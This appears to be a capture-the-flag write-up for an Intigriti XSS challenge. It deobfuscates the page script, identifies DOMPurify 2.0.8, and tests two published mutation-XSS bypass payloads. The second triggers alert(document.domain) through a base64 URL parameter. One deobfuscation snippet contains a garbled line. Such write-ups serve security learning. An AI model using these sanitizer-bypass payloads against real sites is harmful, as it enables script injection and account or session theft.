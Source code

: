 ```yaml
---
grand_parent: Write-ups
parent: 2021
title: September
nav_order: 3
---
```


## Write-up

Inspecting the [source](https://challenge-0921.intigriti.io/challenge/manager.js), we are greeted with an obfuscated source code. We tried a few deobfuscator but found that this tool works best: [https://deobfuscate.io/](https://deobfuscate.io/).

> The de-obfuscated code might have some syntax errors. (some `/` needs to be escaped `\/`)

Notice that `var _0x5195` is used to store de-obfuscated hardcoded strings in the source. We can then use this variable `_0x5195` to replace back the hardcoded strings in the source.

Run the following code in the console on the challenge site to deobfuscate and restore the hardcoded strings:
```js
obf = `SOURCE_CODE` // Replace with the actual source code, using backticks to support multi-line
_0x5195 is a for (i = 0; i < _0x5195.length; i++) {
    obf = obf.replaceAll(`_0x5195[${i}]`, `'${_0x5195[i]}'`)
}
console.log(obf);
```

We can now "better" analyse the code.

The code for handling the button click when clicking the "add" button is:
```js
if (document['querySelector']('#new-password input')['value']['length'] == 0) {
    var k = {};
    k[g3(121, 130)] = 'Uh, oh!';
    k[g3(183, 408)] = 'Please, provide a password';
    k[g3(-257, -151)] = 'error';
    k[g3(-293, 115)] = 'Keep hunting';
    swal(k);
    } else {
    if (window['location']['href']['indexOf']('?password=') > 0) {
        var l = i('password')['replaceAll'](' ', '+');
        if (e(l) === true) {
        var m = atob(l);
        } else {
        var m = 'amsterdam_coffeeshops';
        console['log']('try harder');
        }
        ;
        document['querySelector']('#passwords')['innerHTML'] += "" + '<div class="password"><span id="passwordsaved">' + AntIH4Ck3RC0D3zzzzzzzzz[g3(-475, -447)](m) + '</span><button class="delete"><i class="fa fa-trash-o"></i></button></div>';
        var n = document['querySelectorAll']('.delete');
        for (var o = 0; o < n['length']; o++) {
        n[o]['onclick'] = function () {
            this['parentNode']['remove']();
        };
        }
```

A `password` HTTP parameter is expected and the variable `m` will then store the base64-decoded value of it.

Also, the line with the `ANTIHACKERCODE` is actually:
```js
function g3(c, d) {
    return fp(d, c - -19); // fp() then calls b() which gives and returns the decoded string "MCAST_MSFILTER"
}
```

So the actual function is `AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"](m)` where `m` is passed in as an argument. It then strips certain event hooks such as `onerror`, `onload`, as well as `<script>` tags from the input.

We can test it via the console:
```js
> AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]("<img src=x onerror=alert(1)>")
< "<img src=\"x\">"

> AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]("<script>img src=x onerror=alert(1)>")
< ""
```

Examining the function definition of `AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]`:
```js
function (bl, bm) {
    if (fR(-120, 147) === fR(-120, 249)) {
        if (bl || (bl = '<!-->'), 'string' != typeof bl && !bc(bl)) {
// ...

// Tracing function bc()
bc = function (bk) {
        //...
        return 'object' === (void 0 === af ? 'undefined' : a4(af)) ? bk instanceof af : bk && 'object' === (void 0 === bk ? 'undefined' : a4(bk)) && 'number' == typeof bk['nodeType'] && 'string' == typeof bk['nodeName'];
    }
```

> We know that `fR()`, `fz()` are simply replacing hard-coded strings by calling the `b()` function, so we will ignore them for now.

We see that `af` is defined as:
```js
af = a7['Node'];
```    

and `a7` as:
```js
var a7 = arguments['length'] > 0 && void 0 !== arguments[0] ? arguments[0] : a5(), a8 = function (bi) {
    function fA(c, d) {
        return fz(d - 1072, c);
    }
    if (fA(1212, 1142) === fA(1291, 1035)) {
        var bk = {};
        bk[fA(1363, 1097)] = q;
        n(o[p[17]], bk);
        try {
        y[z[115]][A[114]](B);
        } catch (bl) {
        F[G[116]] = H;
        }
    } else {
        return q(bi);
    }
    };
    if (a8['version'] = '2.0.8', a8['removed'] = [], !a7 || !a7['document'] || 9 !== a7['document']['nodeType']) {
// ...
```

At this point, we realize that a version string has been revealed. Let's consolidate our findings thus far. It appears that our input to the `AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]()` function is heavily sanitized which could mean that an external library is in place. Finding a version string further confirms this idea.

Could it be DOMPurify? 🤔

Searching for `DOMPurify 2.0.8` reveals that it is vulnerable to mutation XSS (mXSS) and we find 2 PoCs for this version:
1. [Mutation XSS when converting from SVG namespace](https://github.com/cure53/DOMPurify/issues/482)
2. [Mutation XSS via namespace confusion – DOMPurify < 2.0.17 bypass (CVE-2020-26870)](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)

Let's test out both of them:

1. Base-64 encode the payload:
    - `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">`=> `PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdmc+PG10ZXh0PjxzdHlsZT48cGF0aCBpZD0iPC9zdHlsZT48aW1nIG9uZXJyb3I9YWxlcnQoMSkgc3JjPiI+`

Running it on the challenge page: [https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdmc+PG10ZXh0PjxzdHlsZT48cGF0aCBpZD0iPC9zdHlsZT48aW1nIG9uZXJyb3I9YWxlcnQoMSkgc3JjPiI+](https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdmc+PG10ZXh0PjxzdHlsZT48cGF0aCBpZD0iPC9zdHlsZT48aW1nIG9uZXJyb3I9YWxlcnQoMSkgc3JjPiI+)

Enter something in the input field and press "Add". The payload doesn't work.

2. Base-64 encode the payload:
    - `<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(document.domain)>` => `PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdHlsZT48L21hdGg+PGltZyBzcmMgb25lcnJvcj1hbGVydChkb2N1bWVudC5kb21haW4pPg==`

Running it on the challenge page: [https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdHlsZT48L21hdGg+PGltZyBzcmMgb25lcnJvcj1hbGVydChkb2N1bWVudC5kb21haW4pPg==](https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdHlsZT48L21hdGg+PGltZyBzcmMgb25lcnJvcj1hbGVydChkb2N1bWVudC5kb21haW4pPg==)

Enter something in the input field and press "Add", this triggers the mXSS:

<img src="images/1.png">

## Further Reading
1. [https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)
2. [https://cure53.de/fp170.pdf](https://cure53.de/fp170.pdf)
3. [https://securityboulevard.com/2020/07/mutation-cross-site-scripting-mxss-vulnerabilities-discovered-in-mozilla-bleach/](https://securityboulevard.com/2020/07/mutation-cross-site-scripting-mxss-vulnerabilities-discovered-in-mozilla-bleach/)
